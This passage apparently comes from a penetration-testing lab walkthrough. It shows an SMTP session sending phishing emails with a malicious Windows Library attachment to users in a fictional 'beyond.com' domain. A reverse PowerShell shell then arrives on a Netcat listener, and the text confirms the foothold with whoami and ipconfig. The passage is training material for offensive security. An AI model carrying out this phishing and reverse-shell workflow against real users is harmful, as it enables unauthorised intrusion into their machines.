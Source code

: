 ```
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

> Listing 38 - Sending emails with the Windows Library file as attachment to marcus and daniela

After waiting a few moments, we receive requests for our WebDAV and Python3 web servers. Let's check the Netcat listener.

```
listening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```

> Listing 39 - Incoming reverse shell on port 4444

Great! Listing 39 shows that our client-side attack via email was successful and we obtained an interactive shell on a machine.

Let's display the current user, hostname, and IP address to confirm that we have an initial foothold in the internal network.

```
PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus

PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1

PS C:\Windows\System32\WindowsPowerShell\v1.0> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.243
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
PS C:\Windows\System32\WindowsPowerShell\v1.0>
```
